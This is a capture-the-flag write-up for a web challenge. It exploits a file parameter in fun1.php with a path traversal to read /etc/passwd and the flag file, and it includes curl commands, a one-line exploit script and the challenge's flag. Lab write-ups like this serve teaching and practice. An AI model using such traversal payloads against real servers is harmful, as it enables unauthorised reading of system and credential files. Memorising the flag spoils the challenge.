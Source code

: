 # DababyWeb

Dababy wanted to share a message, but he seemed to put it too high up...

34.72.118.158:6284

Author: Darkfowl

## Challenge

We are given a website at `http://34.72.118.158:6284/` with links to 2 pages: `http://34.72.118.158:6284/fun.php` and `http://34.72.118.158:6284/fun1.php?file=suge`

The main page includes the text:

```
"Dababy has his secret message hidden somwhere, but how can we read it?" Dababy's Name Judgement

Dababy's Images
```

`fun.php` takes a string and returns "[First word] Is a Cool Name Lesss Go!".
Unless the string is too long, in which case it returns "Dababy says that's a long name".

`fun1.php` is filled with images, and includes the partially obscured text:

```
Pooh, you a fool for this one Ha Oh lord, Jetson made another one Hah Pack in the mail, it's gone (Uh) She like how I smell, cologne (Yeah) I just signed a deal, I'm on Yeah, yeah I go where I want Good, good Play if you want, let's do it (Ha) I'm a young CEO, Suge (Yeah) Yeah, yeah
```

## Solution

If we look at the second url: `http://34.72.118.158:6284/fun1.php?file=suge`, we can see that it specifies a file to read from:

```
-> % curl http://34.72.118.158:6284/fun1.php\?file\=suge
Pooh, you a fool for this one
Ha
Oh lord, Jetson made another one
Hah
Pack in the mail, it's gone (Uh)
She like how I smell, cologne (Yeah)
I just signed a deal, I'm on
Yeah, yeah
I go where I want
Good, good
Play if you want, let's do it (Ha)
I'm a young CEO, Suge (Yeah)
Yeah, yeah

<style type="text/css">
html, body{width: 100%; height: 100%; padding: 0; margin: 0}
div{position: absolute; padding: 0em; border: 1px solid #000}
#nw{top: 10%; left: 0; right: 50%; bottom: 50%}
#ne{top: 0; left: 50%; right: 0; bottom: 50%}
#sw{top: 50%; left: 0; right: 50%; bottom: 0}
#se{top: 50%; left: 50%; right: 0; bottom: 0}
</style>

<div id="nw"><img src="/img/dababy4.jpg" style="width:100%;height:100%;"></div>
<div id="ne"><img src="/img/dababy5.jpg" style="width:100%;height:100%;"></div>
<div id="sw"><img src="/img/dababy6.jpg" style="width:100%:height:100%;"></div>
<div id="se"><img src="/img/dababy7.png" style="width:100%:height:100%;"></div>
```

Let's try a directory traversal attack to read `/etc/passwd`:

```
-> % curl http://34.72.118.158:6284/fun1.php\?file\=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

<style type="text/css">
html, body{width: 100%; height: 100%; padding: 0; margin: 0}
div{position: absolute; padding: 0em; border: 1px solid #000}
#nw{top: 10%; left: 0; right: 50%; bottom: 50%}
#ne{top: 0; left: 50%; right: 0; bottom: 50%}
#sw{top: 50%; left: 0; right: 50%; bottom: 0}
#se{top: 50%; left: 50%; right: 0; bottom: 0}
</style>

<div id="nw"><img src="/img/dababy4.jpg" style="width:100%;height:100%;"></div>
<div id="ne"><img src="/img/dababy5.jpg" style="width:100%;height:100%;"></div>
<div id="sw"><img src="/img/dababy6.jpg" style="width:100%:height:100%;"></div>
<div id="se"><img src="/img/dababy7.png" style="width:100%:height:100%;"></div>
```

Through some guesswork, we can find the `flag.txt` file one directory up from the `suge` file:

```
-> % curl http://34.72.118.158:6284/fun1.php\?file\=../flag.txt
RS{J3TS0N_M4D3_4N0TH3R_0N3}

<style type="text/css">
html, body{width: 100%; height: 100%; padding: 0; margin: 0}
div{position: absolute; padding: 0em; border: 1px solid #000}
#nw{top: 10%; left: 0; right: 50%; bottom: 50%}
#ne{top: 0; left: 50%; right: 0; bottom: 50%}
#sw{top: 50%; left: 0; right: 50%; bottom: 0}
#se{top: 50%; left: 50%; right: 0; bottom: 0}
</style>

<div id="nw"><img src="/img/dababy4.jpg" style="width:100%;height:100%;"></div>
<div id="ne"><img src="/img/dababy5.jpg" style="width:100%;height:100%;"></div>
<div id="sw"><img src="/img/dababy6.jpg" style="width:100%:height:100%;"></div>
<div id="se"><img src="/img/dababy7.png" style="width:100%:height:100%;"></div>
```

## Exploit

```bash
#!/usr/bin/bash

curl http://34.72.118.158:6284/fun1.php\?file\=../flag.txt
```

## Flag

`RS{J3TS0N_M4D3_4N0TH3R_0N3}`

